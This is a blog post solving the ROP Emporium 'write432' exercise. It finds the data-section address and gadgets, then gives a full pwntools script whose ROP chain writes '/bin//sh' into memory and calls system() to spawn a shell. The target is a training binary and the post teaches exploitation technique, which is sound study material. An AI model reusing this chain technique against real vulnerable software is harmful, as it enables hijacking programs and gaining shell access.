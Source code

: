```yaml
---
layout: post
title: ROP Emporium - write432
---
```


### Instruction
Once you've figured out how to write your string into memory and where to write it, go ahead and call system() with its location as your only argument. Are you going to cat flag.txt or drop a shell with /bin/sh? Try to wrap some of your functionality in helper functions, if you can write a 4 or 8 byte value to a location in memory, can you craft a function (in python using pwntools for example) that takes a string and a memory location and returns a ROP chain that will write that string to your chosen location? Crafting templates like this will make your life much easier in the long run.

### Prev step to overflow stack
<https://bhrdn.github.io/ROP-Emporium-ret2win32/>

### Find addr data section
```bash
objdump -D write432 | grep data_start | awk '{print $1}'
```
- __data_start : 0x804a028

### Check useful function
```
gef➤  disassemble usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x08048670 <+0>:     mov    DWORD PTR [edi],ebp
   0x08048672 <+2>:     ret    
   0x08048673 <+3>:     xchg   ax,ax
   0x08048675 <+5>:     xchg   ax,ax
   0x08048677 <+7>:     xchg   ax,ax
   0x08048679 <+9>:     xchg   ax,ax
   0x0804867b <+11>:    xchg   ax,ax
   0x0804867d <+13>:    xchg   ax,ax
   0x0804867f <+15>:    nop
End of assembler dump.
```
- mov    DWORD PTR [edi],ebp

### ROPgadget to search gadgets
```bash
ROPgadget --binary write432 | grep "pop edi"
```
```
0x080486d5 : add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080486d4 : jecxz 0x8048661 ; les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d3 : jne 0x80486c1 ; add esp, 0xc ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080486d6 : les ecx, ptr [ebx + ebx*2] ; pop esi ; pop edi ; pop ebp ; ret
0x080486d7 : or al, 0x5b ; pop esi ; pop edi ; pop ebp ; ret
0x080486d8 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080486da : pop edi ; pop ebp ; ret
0x080486d9 : pop esi ; pop edi ; pop ebp ; ret
```
- 0x080486da : pop edi ; pop ebp ; ret

### Payload
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('write432')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

payload = '\x90' * cyclic_find('laaa')
command = '/bin//sh'

DATA_START = 0x804a028
POP_EDI_POP_EBP = 0x080486da

rop = ROP(exe)
for _ in range(0, len(command), 4):
	rop.raw(POP_EDI_POP_EBP)
	rop.raw(DATA_START + _)
	rop.raw(command[_:_ + 4])
	rop.raw(exe.symbols['usefulGadgets'])

rop.system( DATA_START )

io.sendline(payload + rop.__str__())
io.interactive()
```